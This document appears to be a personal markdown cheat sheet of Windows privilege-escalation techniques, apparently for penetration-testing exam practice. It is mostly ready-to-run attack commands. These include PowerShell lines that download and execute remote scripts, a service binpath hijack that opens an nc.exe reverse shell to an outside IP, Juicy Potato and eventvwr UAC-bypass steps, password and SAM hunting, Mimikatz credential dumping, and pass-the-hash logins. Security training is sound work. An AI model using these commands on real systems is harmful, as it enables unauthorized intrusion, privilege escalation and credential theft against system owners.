




# :ticket: Windows PE :desktop_computer:

**<u>General Strategy/Order of Things to check:</u>**

1. Run [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or [WinPeas.bat](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat)

2. Check for privileges and tokens ([SEImpersonate](###### Juicy Potato SE Impersonate))

   - ```bash
     whoami /priv
     ```

3. Check for [UAC Bypass](###### UAC Bypass)

4. Use [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) for misconfigured paths and privileges

   - ```bash
     #in PowerShell
     IEX(New-ObjectNet.WebClient).downloadString('http://10.10.14.9/PowerUp.ps1')
     Invoke-AllChecks
     ```

5. Look around in installed files and any open ports

   - ```bash
     dir "C:\Users\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
     
     tasklist /svc
     
     netstat -ano
     ```

6. Use [Access Check](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

   - ```bash
     accesschk.exe /accepteula -uwcqv "Authenticated Users" *
     
     sc qc [service name]
     
     sc query [service name]
     
     sc config [service name] start=auto
     
     #edit binary path
     sc config upnphost binpath= "C:\Documents and Settings\IWAM_BOB\nc.exe -nv 192.168.119.236 4444 -e C:\WINDOWS\System32\cmd.exe"  
     
     # Set obj and password
     sc config upnphost obj= ".\LocalSystem" password= ""
     
     #restart
     net start upnphost 
     ```

7. Kernel PE

   - [Sherlock](https://github.com/rasta-mouse/Sherlock) for WIN 10

     - ```bash
       # on kali, download and host the file
       wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
       sudo python3 -m http.server 80
       # on the target, download and run the file:
       powershell.exe -nop -exec bypass "IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.131/Sherlock.ps1'); Find-AllVulns"
       ```

   - When it comes to modern Windows systems, there are only 2 good options for finding exploits: [watson](https://github.com/rasta-mouse/Watson), [wesng](https://github.com/bitsadmin/wesng)

     - ```bash
       #Wesng
       # save systeminfo output above into systeminfo.txt
       git clone https://github.com/bitsadmin/wesng.git
       python3 wesng/wes.py --update
       python3 wesng/wes.py systeminfo.txt -i 'Elevation of Privilege' -e
       ```

     - ```bash
       #Watson
       #Using this will require knowning the .NET version on the target:
       # https://recipeforroot.com/windows-kernel-exploitation/
       dir C:\windows\microsoft.net\framework\
       ```

       Download and install Visual Studio on a windows machine:

       - https://visualstudio.microsoft.com/downloads/

       - Then open Visual Studio and select the option to import a GitHub repository:

         

         Then import the Watson repo:

         

         Then, after importing, right-click on the project and select Properties:

         

         Then make user the target .NET version is selected:

         

         Then select build and transfer the watson.exe file to Kali:

         

         Then to the target over an SMB share:

         ```
         # host watson.exe for download from target
         sudo impacket-smbserver -smb2support my-server .
         # run watson from SMB share on target
         \\192.168.119.131\my-server\watson.exe
         ```

   - [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

     - ```bash
       ./windows-exploit-suggester.py --update
       ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
       ```

   - [Cheatsheet list](https://kakyouim.hatenablog.com/entry/2020/05/27/010807)


###### <u>**Juicy Potato SE Impersonate**</u>

The SeImpersonatePrivilege being enabled is not common and allows for SYSTEM elevation using https://github.com/ohpe/juicy-potato

In order for the Juicy Potato Exploit works we need a Windows OS Version below version 1809. Juicy Potato does not work for new Windows Server 2019 and Windows 10 versions 1809 and higher as explained in [this](https://decoder.cloud/2018/10/29/no-more-rotten-juicy-potato/) blogpost.

[Check Windows Builds here](https://en.wikipedia.org/wiki/Windows_10_version_history#:~:text=The Windows 10 November Update,video%2C messaging%2C and phone apps) 

Get Juicy Potato from [x64](https://github.com/ohpe/juicy-potato/releases) or [x86](https://github.com/ivanitlearning/Juicy-Potato-x86)

Check CLSID [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

**-l**: COM Server Listen Port

**-p**: Program to launch

**-t** : Createprocess call

**-c** : CLSID

```bash
#start listener on kali then on windows machine:
%TEMP%\Juicy.Potato.x86.exe -l 9876 -p %TEMP%\root.exe -t * -c {CLSID}
JP.exe -l 1234 -p shell.bat -t *
juicypotato.exe -l 6666 -p c:\Users\kohsuke\Desktop\reverse.bat -t * -c {CLSID}
```


###### <u>**UAC Bypass**</u>

Windows implements UAC by using two separate SIDs even for administrator accounts. Runningcmd.exe from the Start menu without select ‘Run as administrator’ will give a shell without admin privileges.

```bash
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5 <------- note this number
    ConsentPromptBehaviorUser    REG_DWORD    0x3
    EnableInstallerDetection    REG_DWORD    0x1
    EnableLUA    REG_DWORD    0x1  <------- note this number
    EnableSecureUIAPaths    REG_DWORD    0x1
    EnableUIADesktopToggle    REG_DWORD    0x0
    EnableVirtualization    REG_DWORD    0x1
    PromptOnSecureDesktop    REG_DWORD    0x1  <------- note this number
    ValidateAdminCodeSignatures    REG_DWORD    0x0
    dontdisplaylastusername    REG_DWORD    0x0
    legalnoticecaption    REG_SZ    
    legalnoticetext    REG_SZ    
    scforceoption    REG_DWORD    0x0
    shutdownwithoutlogon    REG_DWORD    0x1
    undockwithoutlogon    REG_DWORD    0x1
    FilterAdministratorToken    REG_DWORD    0x0
```

Now notice the three highlighted keys above and their values.

1. `EnableLUA `tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys
2. `ConsentPromptBehaviorAdmin` can theoretically take on [6 possible values](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4) (readable explanation [here](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)), but from configuring the UAC slider in Windows settings it takes on either 0, 2 or 5.
3. `PromptOnSecureDesktop` is binary, either 0 or 1.

A writeup of how the exploit works is [found here](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/) with a Powershell script, but in the comments, someone [posted a C version](https://github.com/turbo/zero2hero). I tested it confirm the C exploit works so let’s run through that. This exploit works on Windows 7, 8 and 10. Before using the exploit, it helps to ensure that eventvwr.exe exists and is set to autoelevate to High integrity.

```bash
where /r C:\windows eventvwr.exe

strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate
```

For the above, I used [strings.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/strings) by Sysinternals which is the same as the Linux tool. The page even says this program is backwards compatible with Win 95. Amazing. As always, pardon the square brackets.

Now just need to change these lines in the exploit

>```
>/*
>GetCurrentDirectory(MAX_PATH, curPath);
>strcat(curPath, "\\foobar.exe");
>*/
>```

Specifically uncomment them and and change foobar.exe to the name of whatever program payload we want to run at High integrity. The exploit needs to be in the same folder as the payload. In this case it’ll be

```bash
GetCurrentDirectory(MAX_PATH, curPath);
strcat(curPath, "\\reverse_4444.exe");
```

Now we need to compile it for the appropriate OS architecture. The target system is x64 Windows, so [we need MinGW](https://arrayfire.com/cross-compile-to-windows-from-linux/) on Kali to compile it

```bash
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
file eventvwr-bypassuac-64.exe 
```

Now just set up our netcat listener and run the compiled exploit.

```
eventvwr-bypassuac-64.exe
```

### Bypassing UAC with Kali’s bypassuac-x64.exe

Now there’s another way to bypass UAC that already comes in Kali without Metasploit. Do a `locate` to find ‘bypassuac’, you’ll see both `bypassuac-x86.exe` and `bypassuac-x64.exe` Use the correct one depending on your arch. There’s a [good explanation here](https://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/) how this exe works and it has same limitations as the one above; requires user to already be a local admin and doesn’t work when UAC is set to ‘Always notify’. Still it’s good to know more than 1 way to do the same thing because you could be foiled.

### General Commands for Manual Enum

```bash
#REM ***************************************************************************
#REM Resources:
#REM ***************************************************************************
REM - https://github.com/M4ximuss/Powerless/blob/master/Powerless.bat
REM - https://toshellandback.com/2015/11/24/ms-priv-esc/
REM - https://securism.wordpress.com/oscp-notes-privilege-escalation-windows/
 
#REM ***************************************************************************
#REM Kernel Information
#REM ***************************************************************************
REM - https://github.com/SecWiki/windows-kernel-exploits
REM - https://github.com/bitsadmin/wesng
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
powershell.exe -c "driverquery /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name','Start Mode',Path"
powershell.exe -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion,Manufacturer 
powershell.exe -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion,Manufacturer | ?{$_.DeviceName -like '*USB*'}"
 
#REM ***************************************************************************
#REM Interesting User Files
#REM ***************************************************************************
mountvol
for %%i in (a b d e f g h i j k l m n o p q r s t u v w x y z) do @dir %%i: 2>nul
dir "C:\Users\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
dir "C:\Documents and Settings\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
 
#REM ***************************************************************************
#REM Installed Programs
#REM ***************************************************************************
dir "C:\" /b
dir "C:\Program Files" /b
dir "C:\Program Files (x86)" /b
dir /b c:\ "C:\Program Files" "C:\Program Files (x86)" | sort
dir /a /b C:\inetpub\
dir /s /b "c:\apache*" "c:\xampp*"
wmic product get name,version,vendor
REM world writable program files
powershell.exe -c "Get-ChildItem 'C:\Program Files' -Recurse -Force | ?{Get-ACL $_.FullName | ?{$_.AccessToString -match 'Everyone\sAllow\s\sModify'}}"
powershell.exe -c "Get-ChildItem 'C:\Program Files (x86)' -Recurse -Force | ?{Get-ACL $_.FullName | ?{$_.AccessToString -match 'Everyone\sAllow\s\sModify'}}"
 
#REM ***************************************************************************
#REM Accounts & Groups
#REM ***************************************************************************
set
whoami
whoami /priv
whoami /groups
net users
net accounts
net localgroup
net localgroup administrators
net user <username>
REM non-privileged users running MSI with SYSTEM permissions
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 
#REM ***************************************************************************
#REM Network
#REM ***************************************************************************
ipconfig /all
netstat -ano
route print
arp -A
net share
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
 
#REM ***************************************************************************
#REM Processes & Scheduled Tasks/Services
#REM ***************************************************************************
REM Look for processes running by another user
tasklist /v
tasklist /svc
REM Look for tasks with a binary you can overwrite
for /f "tokens=2 delims=:" %p in ('schtasks /query /fo LIST /v^|findstr /i "TaskName"^|findstr /i /v "\\Microsoft\\Windows\\"') do (for /f "tokens=* delims= " %t in ("%p") do schtasks /query /fo LIST /v /tn "%t")
REM Look for BUILTIN\Users with F or a group you are in with F or C
for /f "tokens=2 delims='='" %a in ('wmic service list full^|findstr /i "pathname"^|findstr /i /v "system32"') do cmd.exe /c icacls "%a"
REM Look for service paths with spaces in them
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
for /F "tokens=2* delims= " %i in ('sc query ^| find /I "ce_name"') do @sc qc %i %j | findstr "BINARY_PATH_NAME"
REM TODO: make this run for each service...
sc sdshow <service name>
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
#REM ***************************************************************************
#REM Stored Passwords
#REM ***************************************************************************
 
cmdkey /list
 
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
 
#REM don't forget to --> cd c:\
dir /s *pass* == *cred* == *vnc* == *.config*
dir /a /s /b *.kdbx *vnc.ini *.rdp
dir /s /b php.ini httpd.conf httpd-xampp.conf my.ini my.cnf web.config
type C:\Windows\System32\inetsrv\config\applicationHost.config 2>nul
dir /b /s unattended.xml* sysprep.xml* sysprep.inf* unattend.xml*
 
dir %SYSTEMROOT%\repair\SAM 2>nul
dir %SYSTEMROOT%\System32\config\RegBack\SAM 2>nul
dir %SYSTEMROOT%\System32\config\SAM 2>nul
dir %SYSTEMROOT%\repair\system 2>nul
dir %SYSTEMROOT%\System32\config\SYSTEM 2>nul
dir %SYSTEMROOT%\System32\config\RegBack\system 2>nul
dir /a /b /s SAM.b*
 
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query HKLM /f password /t REG_SZ /s /k
reg query HKCU /f password /t REG_SZ /s /k
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
 
#REM last resorts ...
start /b findstr /sim password *.xml *.ini *.txt *.config *.bak 2>nul
reg query HKLM /f password /t REG_SZ /s
dir /s /b *pass* *cred* *vnc* *.config*

#AV check
WMIC /Namespace:\\\\root\\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```


**Mimikatz** Download [here](https://github.com/gentilkiwi/mimikatz/wiki)

```bash
privilege::debug
token::elevate
lsadump::sam

#If found lsass file, Win32 flavor cannot access 64 bits process memory (like lsass), but can open 32 bits minidump under Windows 64 bits.
sekurlsa::minidump C:\path\to\lsass.DMP
sekurlsa::logonPasswords
```

**Pass the Hash**

```bash
#using Evil WinRM: https://github.com/Hackplayers/evil-winrm
ruby evil-winrm.rb -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

#using psexec.py
python /home/kali/.local/bin/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:63485d30576a1a741106e3e800053b34 administrator@10.11.1.20 cmd.exe
```

